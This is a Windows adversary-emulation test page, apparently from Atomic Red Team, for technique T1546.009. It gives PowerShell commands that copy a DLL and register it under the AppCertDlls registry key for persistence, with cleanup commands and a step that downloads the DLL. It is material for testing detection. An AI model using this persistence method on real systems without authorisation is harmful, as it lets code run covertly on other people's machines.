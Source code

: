 ```yaml
---
tags: [T1546_009, atomic_test]
filename: "[[T1546.009|T1546.009 - Event Triggered Execution: AppCert DLLs]]"
---
```

# T1546.009 - Event Triggered Execution: AppCert DLLs

## Atomic Test #1 - Create registry persistence via AppCert DLL
Creates a new 'AtomicTest' value pointing to an AppCert DLL in the AppCertDlls registry key. 
Once the computer restarted, the DLL will be loaded in multiple processes and write an 
'AtomicTest.txt' file in C:\Users\Public\ to validate that the DLL executed succesfully.

Reference: https://skanthak.homepage.t-online.de/appcert.html

**Supported Platforms:** Windows


**auto_generated_guid:** a5ad6104-5bab-4c43-b295-b4c44c7c6b05





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | path of dll to use | path | PathToAtomicsFolder&#92;T1546.009&#92;bin&#92;AtomicTest.dll|
| reboot | Set value to $true if you want to automatically reboot the machine | string | $false|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item "#{dll_path}" C:\Users\Public\AtomicTest.dll -Force
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\AppCertDlls" /v "AtomicTest" /t REG_EXPAND_SZ /d "C:\Users\Public\AtomicTest.dll" /f
if(#{reboot}){Restart-Computer}
```

#### Cleanup Commands:
```powershell
reg delete "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\AppCertDlls" /v "AtomicTest" /f
Remove-Item C:\Users\Public\AtomicTest.dll -Force
Remove-Item C:\Users\Public\AtomicTest.txt -Force
```



#### Dependencies:  Run with `powershell`!
##### Description: File to copy must exist on disk at specified location (#{dll_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.009/bin/AtomicTest.dll" -OutFile "#{dll_path}"
```




<br/>
